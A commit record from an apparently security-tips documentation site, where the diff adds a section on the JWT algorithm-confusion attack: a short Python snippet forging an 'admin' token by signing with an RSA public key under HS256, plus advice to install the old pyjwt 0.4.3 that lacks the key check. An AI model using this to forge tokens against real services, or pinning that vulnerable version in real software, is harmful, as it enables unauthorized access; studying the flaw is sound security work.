

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/jwt.md, in a window 1280 px wide and 900 px high, scrolled down 663 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add tips on PyJWT on Python

````diff
--- a/docs/jwt.md
+++ b/docs/jwt.md
@@ -25,3 +25,30 @@ jwt_tool.py is a toolkit for validating, forging and cracking JWTs (JSON Web Tok
 ```
 
 [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)
+
+
+## Exploit in Python
+
+On some vulnerable implementation, it's possible to replace the JWT algorithm
+from `RS256` to `HS256`. The vulnerable library use the public key as a secret.
+
+```python
+import jwt
+key = open('public_key.pem', 'r').read()
+jwt.encode({"username":"admin"}, key=key, algorithm='HS256')
+```
+
+You need to install the `pyjwt` package in a specific version. In the last
+versions, the library check the key is a x509 certificate:
+
+```bash
+  File ".../lib/python3.6/site-packages/jwt/algorithms.py", line 151, in prepare_key
+    'The specified key is an asymmetric key or x509 certificate and'
+jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
+```
+
+The version `0.4.3` has not this check:
+
+```bash
+pip install pyjwt==0.4.3
+```
````
